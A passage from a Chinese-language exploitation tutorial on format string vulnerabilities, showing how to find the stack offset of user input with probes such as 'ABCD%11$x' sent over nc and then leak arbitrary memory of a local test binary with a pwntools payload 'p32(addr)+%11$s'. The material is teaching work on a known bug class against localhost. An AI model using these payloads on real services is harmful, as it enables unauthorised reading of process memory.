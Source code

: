 那么我们怎么通过上面的格式化字符获取我们想要的内存的地址呢？这就涉及第三个知识点。

格式化字符串漏洞是怎么产生的？首先要有一个函数，比如`read`, 比如`gets`获取用户输入的数据储存到局部变量中，然后直接把该变量作为`printf`这类函数的第一个参数值

其中局部变量是储存在栈中，而且是储存在栈的高位地址上，这里具体细节可以去读读汇编代码，简单的说，进入到一个函数中后，会`sub rsp,xxx`一段局部变量的栈空间，然后函数的参数啥的都是push到局部变量的栈空间之上

理解了上述的知识点后，我们可以输入想leak数据的内存地址，然后爆破出我们输入数据的位置，不就能leak相应地址的内存的数据了么

比如我输入`ABCD%2$x`，如果输出`ABCD`十六进制值，则说明第二个参数为我们输入的数据的起始位置.

```
$ nc 127.0.0.1 10001
ABCD%2$x
ABCD400

$ nc 127.0.0.1 10001
ABCD%3$x
ABCD174

$ nc 127.0.0.1 10001
ABCD%4$x
ABCD174

....

$ nc 127.0.0.1 10001
ABCD%11$x
ABCD44434241

```

这样我们就能得到payload: `addr + %11$s`, 返回值为`addr`指向的内存的字符串，直到`\0`为止

这里我们可以进行测试下(我们现在是处于研究状态，虽然假想没bin，但实际我们是有的，所以可以进行测试来证明我们的结论)

```
$ objdum -d fmt_test -M intel

....

080485c4 <_fini>:
 80485c4:	53                   	push   ebx
 80485c5:	83 ec 08             	sub    esp,0x8
 80485c8:	e8 33 fe ff ff       	call   8048400 <__x86.get_pc_thunk.bx>
 80485cd:	81 c3 33 1a 00 00    	add    ebx,0x1a33
 80485d3:	83 c4 08             	add    esp,0x8
 80485d6:	5b                   	pop    ebx
 80485d7:	c3                   	ret

$ py
>>> from pwn import *

>>> p = remote("127.0.0.1",10001)
[x] Opening connection to 127.0.0.1 on port 10001
[x] Opening connection to 127.0.0.1 on port 10001: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 10001: Done

>>> p.send(p32(0x80485c4)+"%11$s")

>>> p.recv()
'\xc4\x85\x04\x08S\x83\xec\x08\xe83\xfe\xff\xff\x81\xc33\x1a'

>>> 

```
